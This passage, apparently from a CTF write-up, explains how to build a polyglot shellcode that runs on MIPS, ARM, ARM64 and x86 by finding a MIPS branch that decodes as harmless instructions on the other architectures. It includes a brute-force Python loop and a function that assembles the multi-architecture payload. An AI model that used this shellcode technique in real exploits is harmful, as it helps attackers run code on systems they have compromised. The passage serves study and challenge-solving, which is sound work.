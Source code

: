 ## Polyglot MIPS/ARM/ARM64/x86/x86-64

Now comes the hard part. My objective was to find a MIPS instruction that performs a jump and is (effectively) a NOP in the other architectures.
Note that MIPS has a branch delay slot, i.e., it executes the instruction after a conditional branch unconditionally.
We are lucky since the first instruction of the previous polyglot `eb640032`  (see `make_polyglot_x86_arm`) is harmless; it decodes to `andi zero, s0, 0x64eb`.

To that end, I went through the MIPS jump instructions and decompiled them in ARM/ARM64 to see if they are a NOP.
Note that in both ARM and MIPS, the byte determining the instruction is the fourth byte, while the first byte is used in x86.
So for a jump, we can play around with the offset to find one that makes the instruction NOP(s) in x86.

The one that finally worked for me was `beq a3, a3, 0x39c`.
To find an offset that works, I used a script:

```python
for i in range(256): # the jump will be over i instructions or 4*i bytes
    c = "rasm2 -a x86 -b 32 -d {:02x}00e710".format(i)
    print c
    os.system(c)
```

I chose `e600e710`.

```nohighlight
ARM:    rscne r0, r7, r6, ror 1    (Conditional Reverse Subtract with Carry)
ARM64:  adr x6, 0xfffffffffffce01c (Load address relative to PC)
x86/64: out 0, al; out 0x10, eax   (Output byte in AL to I/O port address imm8)
MIPS:   beq a3, a3, 0x39c
```

```python
def make_polyglot(syscall, arg1, arg2):
    # fill with sufficiently many NOPs since I am too lazy to calculate the actual offset
    code = (unhex("e600e710") + make_polyglot_x86_arm(syscall, arg1, arg2)).ljust(1600, "\0")\
           + make_shellcode_mips(syscall, arg1, arg2)
    return code
```